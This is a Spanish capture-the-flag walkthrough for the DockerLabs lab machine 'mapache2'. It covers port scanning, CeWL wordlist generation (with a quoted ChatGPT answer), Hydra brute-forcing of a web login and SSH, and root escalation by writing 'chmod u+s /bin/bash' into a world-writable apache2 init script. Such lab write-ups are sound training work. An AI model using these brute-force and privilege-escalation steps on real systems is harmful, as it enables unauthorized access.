




Maquina "mapache2" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Sep  2 20:00:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-09-02 20:00:23 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:9e:60:04:ea:da:48:98:7a:e3:eb:f5:8e:25:83:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPh6UqEY++e9Kf6SVPV8+FwzeSzn1Sb0a5BjOpOhmjfJq4/cPpz7ZuUzWpqkjPx71va69nLnOVJ9eLaCuIq8hi4=
|   256 64:0a:26:78:24:8e:1a:75:54:5a:58:bc:f4:18:ce:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIADa8Dt31nScLWTk1pM77PTDusyfx57GAuWtGyGFGRpA
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hackerspace - Welcome
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    We have to change this, I told Medusa to protect this more.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=9/2%Time=66D64388%P=x86_64-pc-linux-gnu%r(
SF:NULL,3C,"We\x20have\x20to\x20change\x20this,\x20I\x20told\x20Medusa\x20
SF:to\x20protect\x20this\x20more\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 20:00:34 2024 -- 1 IP address (1 host up) scanned in 11.43 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: ????`

Si nos fijamos el 3306 no parece estar corriendo mysql ni nada y mas encima dice esto:

"We have to change this, I told Medusa to protect this more."

Para confirmar si realmente dice eso podriamos conectarnos con netcat para ver si nos dice ese mensaje:

```css
nc <ip> 3306
```

y como vemos en la salida, el mensaje es correcto, por lo que tenemos un posible usuario: "medusa"

Ahora que ya obtuvimos algo de información, podemos ir a el navegador y entrar en la ip para ver que hay:



Como vemos es una página que no tiene mucha importancia pero tiene un panel de login, por lo que luego de intentar varias cosas como "SQLi" y demás pero nada servia, prácticamente llegando a la locura se me ocurre ver si alguna palabra de la página de inicio es la contraseña, por lo que le pregunto a chatGPT y me dice esto:

~~~css
Para extraer todas las palabras de una página web y guardarlas en un diccionario, puedes utilizar **CeWL** (Custom Word List Generator). Esta herramienta está disponible tanto en Kali Linux como en Parrot Security OS y se utiliza para generar listas de palabras personalizadas a partir del contenido de sitios web, lo cual es muy útil para ataques de fuerza bruta o ataques de diccionario.

### Uso de CeWL

1. **Instalar CeWL** (si no está instalado por defecto):
   ```bash
   sudo apt-get install cewl
   ```

2. **Ejecutar CeWL** para extraer palabras de una página web:
   ```bash
   cewl -w diccionario.txt http://example.com
   ```

   - `-w diccionario.txt` especifica el archivo donde se guardarán las palabras extraídas.
   - `http://example.com` es la URL de la página web de la cual quieres extraer las palabras.

3. **Opciones adicionales** de CeWL:
   - `-d [depth]` para especificar la profundidad de búsqueda.
   - `-m [min_length]` para establecer la longitud mínima de las palabras.
   - `-o` para incluir los metadatos de la página.

### Ejemplo de uso avanzado
Extraer palabras con una longitud mínima de 5 caracteres, a una profundidad de 2 niveles, y guardarlas en un archivo llamado `mi_diccionario.txt`:
```bash
cewl -d 2 -m 5 -w mi_diccionario.txt http://example.com
```

Esta herramienta es muy flexible y puedes ajustar las opciones según tus necesidades específicas para generar un diccionario adecuado para tus propósitos.
~~~

ahora intentamos usar ese "cewl" y guardarnos las cosas:

```css
cewl http://<ip> > pass
```

una vez hecho eso ejecutamos hydra usando el usuario "medusa" y el diccionario:

```css
hydra -l medusa -P pass <ip> http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```



Como vemos ya tenemos la contraseña. (demasiado rebuscado)

Una vez iniciada la sesión veremos otra página inutil, pero al ver el codigo fuente se ve este mensaje:

```css
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

parece que hay otro usuario llamado "kinder"

Ahora otra vez descendiendo a la locura, pruebo con el diccionario de antes:

```css
hydra -l kinder -P pass ssh://172.17.0.2
```

y como tampoco funciona, pruebo ya por probar lo que sea usar de contraseña "medusa" y finalmente gano acceso con las credenciales:

#### Kinder:medusa

(y mas encima con la k en mayúsculas).

# INTRUSION

```css
ssh Kinder@<ip>
```

con contraseña "medusa".

# ESCALADA DE PRIVILEGIOS

Si ejecutamos un `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for Kinder on 50b2ab6877b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on 50b2ab6877b6:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

podemos ver el servicio de apache2 en `/etc/init.d/apache2` y ver si oculta algo. Ahora si hacemos un `ls -la` en ese archivo veremos esto:

```css
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 /etc/init.d/apache2
```

como lo podemos modificar simplemente con nano lo modificamos y la primeras 2 líneas nos deben quedar así:

```css
#!/bin/bash
chmod u+s /bin/bash
```

en resumen: Cambiamos "#!/bin/sh" por "#!/bin/bash" y agregamos un chmod debajo para darle permisos SUID a bash.

Ahora ejecutamos `sudo service apache2 restart` y listo, solo nos queda ejecutar `bash -p` y ya seremos root.



Gracias por leer.